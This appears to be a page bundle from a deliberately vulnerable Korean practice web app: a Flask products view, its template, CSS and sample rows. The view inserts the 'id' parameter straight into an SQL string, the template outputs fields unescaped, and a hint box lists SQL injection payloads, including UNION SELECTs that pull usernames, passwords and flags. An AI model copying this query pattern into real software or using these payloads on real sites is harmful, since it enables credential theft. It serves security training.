
Screenshot of /products (signed in) with the database file from the repository.
### tables this page shows
CREATE TABLE products (
            id          INTEGER PRIMARY KEY AUTOINCREMENT,
            name        TEXT NOT NULL,
            description TEXT,
            price       INTEGER
        );

### app.py (the view, shortened to what this page needs)
@app.route("/products")
def products():
    search = request.args.get("search", "")
    product_id = request.args.get("id", "")
    results = []
    query_shown = ""
    error = None
    conn = get_db()
    c = conn.cursor()
    if product_id:
        query_shown = f"SELECT id,name,description,price FROM products WHERE id={product_id}"
        try:
            c.execute(query_shown)
            results = c.fetchall()
        except Exception as e:
            error = str(e)
    else:
        c.execute("SELECT id,name,description,price FROM products")
        results = c.fetchall()
    conn.close()
    return render_template("products.html",
                           results=results,
                           query=query_shown,
                           search=search,
                           error=error)

### app.py (called while the page is built)
def get_db():
    return sqlite3.connect(DB_PATH)

### templates/products.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<div class="card">
  <div class="card-title">상품 검색 <span class="vuln-badge">SQL Injection</span></div>
  <div class="hint">
    테스트 페이로드 (ID 파라미터):<br>
    • <code>/products?id=1</code> → 정상 조회<br>
    • <code>/products?id=1 OR 1=1</code> → 전체 상품 노출<br>
    • <code>/products?id=0 UNION SELECT 1,username,password,4 FROM users--</code> → 계정 정보 탈취<br>
    • <code>/products?id=0 UNION SELECT 1,flag,3,4 FROM secret_flags--</code> → 플래그 탈취<br><br>
    테스트 페이로드 (검색 파라미터):<br>
    • <code>/products?search=' OR '1'='1</code> → 전체 목록<br>
    • <code>/products?search=%' UNION SELECT 1,username,password,4 FROM users--</code>
  </div>
  <form method="GET" style="display:flex;gap:10px;margin-bottom:16px;">
    <input type="text" name="search" placeholder="상품명 검색..." value="{{ search }}" style="flex:1;">
    <input type="text" name="id" placeholder="ID 직접 조회" style="width:160px;">
    <button type="submit" class="btn">검색</button>
  </form>
  {% if results %}
  <table style="margin-top:14px;">
    <tr><th>ID</th><th>이름</th><th>설명</th><th>가격</th></tr>
    {% for r in results %}
    <tr>
      <td>{{ r[0] }}</td>
      <td>{{ r[1] | safe }}</td>
      <td>{{ r[2] | safe }}</td>
      <td>{{ r[3] | safe }}</td>
    </tr>
    {% endfor %}
  </table>
  {% else %}
  <div style="color:var(--muted);font-size:12px;margin-top:10px;">검색 결과 없음</div>
  {% endif %}
</div>
{% endblock %}

### templates/base.html (style rules this page uses)
*,*::before,*::after { box-sizing:border-box;margin:0;padding:0 }
:root { --bg:#0d0d0f;--surface:#16161a;--surface2:#1e1e24; --border:#2a2a35;--accent:#ff4444;--accent2:#ff7700; --green:#00ff88;--text:#e8e8f0;--muted:#888899; --font:'Courier New',monospace; }
body { background:var(--bg);color:var(--text);font-family:var(--font);min-height:100vh; }
.card { background:var(--surface);border:1px solid var(--border);border-radius:4px;padding:24px;margin-bottom:20px; }
.card-title { font-size:11px;letter-spacing:2px;color:var(--accent);text-transform:uppercase;margin-bottom:16px; }
.vuln-badge { display:inline-block;background:rgba(255,68,68,.15);border:1px solid rgba(255,68,68,.4);color:var(--accent);font-size:10px;padding:2px 8px;border-radius:2px;margin-left:8px;letter-spacing:1px; }
input[type=text],input[type=password],input[type=email],input[type=number],textarea,select { width:100%;background:var(--bg);border:1px solid var(--border);color:var(--text);padding:9px 12px;font-family:var(--font);font-size:13px;border-radius:2px;outline:none;transition:border-color .2s; }
.btn { display:inline-block;background:var(--accent);color:#fff;border:none;padding:9px 20px;font-family:var(--font);font-size:12px;letter-spacing:1px;cursor:pointer;border-radius:2px;text-decoration:none;transition:background .2s; }
.hint { font-size:11px;color:var(--muted);border-left:2px solid var(--border);padding-left:10px;line-height:1.8;margin-bottom:16px; }
table { width:100%;border-collapse:collapse;font-size:12px; }
th { background:var(--surface2);color:var(--muted);padding:8px 12px;text-align:left;font-size:10px;letter-spacing:1px;border-bottom:1px solid var(--border); }
td { padding:8px 12px;border-bottom:1px solid var(--border); }

### rows the page displays
products: id "1", name "갤럭시 S25", description "삼성 최신 플래그십", price "1200000"
products: id "2", name "아이폰 16", description "애플 최신 스마트폰", price "1500000"
products: id "3", name "맥북 프로", description "M3 칩 탑재 노트북", price "3500000"
products: id "4", name "갤럭시 탭", description "안드로이드 태블릿", price "800000"
products: id "5", name "에어팟 프로", description "노이즈 캔슬링 이어폰", price "350000"

### other values shown
{{ session.user }} "admin"
